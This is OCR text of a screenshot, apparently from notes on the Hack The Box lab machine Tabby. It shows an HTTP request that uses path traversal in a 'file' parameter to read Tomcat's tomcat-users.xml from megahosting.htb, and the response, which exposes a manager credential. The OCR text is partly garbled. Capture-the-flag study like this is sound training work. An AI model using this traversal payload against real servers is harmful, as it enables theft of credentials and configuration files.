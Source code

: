 ![](Maszyny/Linux/Tabby/Pasted%20image%2020210909213729.png)

ܫ ܫ
LILLIISLU LU LIIC nucirl JUILWII vuruu tom
UITULI VIILULUI
contributor license agreements. See the NOTICE file distributed with
this work for additional information regarding copyright ownership.
The ASF licenses this file to You under the Apache License, Version 2.0
(the "License"); you may not use this file except in compliance with
the License. You may obtain a copy of the License at
16
http://www.apache.org/licenses/LICENSE-2.0
Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
stomcat-users xmlns="http://tomcat.apache.org/xml"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
version="1.0">
-->
1
1 GET /news.php?file=../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml
12
HTTP/1.1
13
2 Host: megahosting.htb
14.
3 Upgrade-Insecure-Requests: 1
15
4 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebkit/537.36 (KHTML, like
Gecko) Chrome/88.0.4324.150 Safari/537.36
17
5 Accept:
18
text/html,application/xhtml+xml,application/xml;q=0.9, image/avif, image/webp, image/apng 19
,*/*;q=0.8, application/signed-exchange;v=b3;q=0.9
20
6 Accept-Encoding: gzip,deflate
21
7 Accept - Language: en-US, en;q=0.9
22
8 Connection: close
23
9
24
10
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
NOTE: By default, no user is included in the "manager-gui" role required
to operate the "/manager/html" web application. If you wish to use this app,
you must define such a user - the username and password are arbitrary. It is
strongly recommended that you do NOT use one of the users in the commented out
section below since they are intended for use with the examples web
application
-->
NOTE: The sample user and role entries below are intended for use with the
examples web application. They are wrapped in a comment and thus are ignored
when reading this file. If you wish to configure these users for use with the
examples web application, do not forget to remove the <!.. ..> that surrounds
them. You will also need to set the passwords to something appropriate.
>
<!--
<role rolename="tomcat"/>
<role rolename="rolel"/>
<user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
<user username="both" password="<must-be-changed>" roles="tomcat, rolel"/>
<user username="rolel" password="<must-be-changed>" roles="rolel"/>
<role rolename="admin-gui"/>
<role rolename="manager-script" />
<user username="tomcat" password="$3cureP4s5wOrd123!" roles="admin-gui, manager-scr:
</tomcat-users>
